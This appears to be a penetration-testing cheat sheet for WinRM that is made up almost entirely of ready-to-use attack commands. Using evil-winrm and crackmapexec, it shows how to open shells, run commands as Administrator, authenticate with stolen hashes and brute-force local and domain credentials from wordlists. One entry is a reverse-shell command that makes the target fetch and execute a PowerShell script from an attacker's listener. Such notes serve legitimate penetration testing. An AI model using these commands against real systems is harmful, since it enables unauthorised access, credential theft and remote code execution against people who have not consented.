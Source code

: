 # winrm

Crackmapexec cant provide an interactive shell by itself

## interactive shell with evil-winrm

```bash
evil-winrm -i "$rhost" -u "user" -p "password"
```

## check connection

```bash
crackmapexec winrm $rhost -u Administrator -p <some-password>
```

## run powershell command

```bash
crackmapexec winrm $rhost -u Administrator -p <some-password> -X <whoami>
```

## run cmd powershell command

```bash
crackmapexec winrm $rhost -u Administrator -p <some-password> -x <dir>
```

## reverse shell

```bash
crackmapexec winrm $rhost -u Administrator -p <password> -X "powershell.exe -c \"IEX (New-Object Net.WebClient).DownloadString('http://<lhost>:<lport>/reverse-shell/powershell.ps')\""
```

## use hash

```bash
crackmapexec winrm $rhost -u some_user -H "some-hash"
```

## bruteforce creds local user

```bash
crackmapexec winrm $rhost -u wordlist.txt -p wordlist.txt --local-auth --continue-on-success
```

## bruteforce creds domain "none"

```bash
crackmapexec winrm $rhost -u wordlist.txt -p wordlist.txt --continue-on-success
```

## bruteforce creds domain custom

```bash
crackmapexec winrm $rhost -d "yourdomain" -u wordlist.txt -p wordlist.txt --continue-on-success
```
